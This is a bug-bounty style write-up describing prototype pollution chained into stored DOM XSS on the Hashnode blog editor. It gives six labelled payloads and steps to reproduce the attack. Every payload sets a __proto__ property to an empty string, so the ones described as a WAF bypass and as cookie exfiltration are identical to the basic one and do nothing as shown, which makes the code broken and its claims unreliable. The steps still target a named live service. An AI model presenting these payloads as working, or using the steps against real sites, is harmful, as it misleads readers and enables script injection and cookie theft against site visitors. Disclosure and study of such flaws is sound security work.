

# Prototype Pollution to Stored XSS BY Hashnode

**Researcher:** MD Mehedi Hasan (SecurityTalent)

---

## Introduction

Prototype Pollution is a JavaScript vulnerability where an attacker injects properties into `Object.prototype`, affecting all objects in the runtime. When chained with a **gadget** (a property that reaches a dangerous sink like `innerHTML`), it becomes **Stored DOM XSS** — affecting every visitor to the compromised page.

In this guide, I'll show you **how to discover and confirm this vulnerability step-by-step using the browser**.

---

## The Working Payloads

### Payload 1 — Basic XSS (alert box)
```javascript
const payload = JSON.parse('{"__proto__":{"innerHTML":""}}');
```

### Payload 2 — String.fromCharCode bypass (evades WAFs)
```javascript
const payload = JSON.parse('{"__proto__":{"innerHTML":""}}');
```

### Payload 3 — Cookie exfiltration
```javascript
const payload = JSON.parse('{"__proto__":{"innerHTML":""}}');
```

### Payload 4 — defaultView gadget (jQuery-based)
```javascript
const payload = JSON.parse('{"__proto__":{"defaultView":""}}');
```

### Payload 5 — jQuery context gadget
```javascript
const payload = JSON.parse('{"__proto__":{"context":""}}');
```

### Payload 6 — srcdoc gadget (iframe override)
```javascript
const payload = JSON.parse('{"__proto__":{"srcdoc":""}}');
```

---


## POC
[](https://youtu.be/A0xOd3GD0Kk?si=9I5YlA64TOrb8Cpb)


## Step-by-Step Bug Discovery via Console

### Phase 1: Verify the Pollution Source


Steps to Reproduce
 * **1. Go to Hashnode blog editor / writing field.**
 * **2. Inject one of the payloads above via the content field or a merge   operation.**
 * **3. Preview or publish the blog post.**
 * **4. Observe JavaScript execution — alert box fires with the decoded  message or cookies.**
 * **5. Confirm pollution via browser console: ({}).innerHTML returns the malicious value.**


**Always ensure you have explicit authorization before testing on any live system. This research was conducted with proper authorization as part of a legitimate security assessment.**

---

*Researcher: MD Mehedi Hasan (SecurityTalent)*  
*Tags: `#prototype-pollution` `#xss` `#dom-xss` `#bug-bounty` `#security` `#javascript`*